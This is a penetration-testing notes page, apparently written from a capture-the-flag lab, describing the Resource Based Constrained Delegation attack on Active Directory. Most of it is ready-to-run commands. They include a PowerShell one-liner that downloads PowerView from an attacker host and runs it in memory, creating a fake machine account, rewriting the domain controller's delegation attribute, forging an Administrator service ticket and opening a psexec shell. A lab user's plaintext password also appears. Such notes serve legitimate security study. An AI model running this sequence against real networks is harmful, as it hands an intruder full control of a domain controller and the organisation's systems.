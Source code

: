 # Resource Based Constrained Delegation

{% embed url="https://hakin9.org/rbcd-attack-kerberos-resource-based-constrained-delegation-attack-from-outside-using-impacket" %}

In a nutshell, through a Resource Based Constrained Delegation attack we can add a computer under our control to the domain.

The attack relies on three prerequisites:&#x20;

* We need a shell or code execution as a domain user that belongs to the Authenticated Users group. By default any member of this group can add up to 10 computers to the domain.&#x20;
* The ms-ds-machineaccountquota attribute needs to be higher than 0. This attribute controls the amount of computers that authenticated domain users can add to the domain.&#x20;
* A user or a group is a member of, needs to have WRITE privileges ( GenericAll , WriteDACL) over a domain joined computer (in this case the Domain Controller)

<figure><img src="../../.gitbook/assets/image (26).png" alt=""><figcaption></figcaption></figure>

## Linux based Attack Commands

### Enumeration

{% code overflow="wrap" %}
```bash
# Check if MS-ds-machineaccountquota has more than 0
# If the output of the command below shows that this attribute is set to 10, this means each authenticated domain user can add up to 10 computers to the domain.

PS> Get-ADObject -Identity ((Get-ADDomain).distinguishedname) -Properties ms-DS-MachineAccountQuota

# Verify that the msds-allowedtoactonbehalfofotheridentity attribute is empty. 

PS> iex (new-Object Net.WebClient).DownloadString('http://10.10.14.36/privesc/PowerView.ps1')|Import-Module PowerView.ps1

PS> Get-DomainComputer DC | select name, msds-allowedtoactonbehalfofotheridentity

# The following output shows that the value is empty. Now it is ready to attack. 
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (147).png" alt=""><figcaption></figcaption></figure>



### Exploitation&#x20;

1. **Download the tool.** [https://github.com/tothi/rbcd-attack/blob/master/rbcd.py](https://github.com/tothi/rbcd-attack/blob/master/rbcd.py)
2. **Creating a fake computer**

{% code overflow="wrap" %}
```bash
# Kali
addcomputer.py -computer-name 'EVILCOM$' -computer-pass password -dc-ip $RHOST support/support:Ironside47pleasure40Watchful
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (148).png" alt=""><figcaption></figcaption></figure>

3. **Modifying delegation rights**

Implemented the script [rbcd.py](https://github.com/tothi/rbcd-attack/blob/master/rbcd.py) found here in the repo which adds the related security descriptor of the newly created EVILCOMPUTER to the `msDS-AllowedToActOnBehalfOfOtherIdentity` property of the target computer.

{% code overflow="wrap" %}
```bash
# Use the rbcd.py downloaded above 
./rbcd.py  -f EVILCOM -t DC -dc-ip $RHOST support\\support:Ironside47pleasure40Watchful
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (151).png" alt=""><figcaption></figcaption></figure>

4. Getting Impersonated Service Ticket

{% code overflow="wrap" %}
```bash
# Kali 
impacket-getST -spn cifs/DC.support.htb -impersonate Administrator -dc-ip $RHOST support/EVILCOM$:password
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (149).png" alt=""><figcaption></figcaption></figure>

5. Injecting Ticket into memory&#x20;

```bash
# Kali
export KRB5CCNAME=./Administrator.ccache
Klist
```

<figure><img src="../../.gitbook/assets/image (152).png" alt=""><figcaption></figcaption></figure>

6. Running PSEXEC command.&#x20;

{% code overflow="wrap" %}
```bash
# Kali
 impacket-psexec -k DC.support.htb
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (153).png" alt=""><figcaption></figcaption></figure>
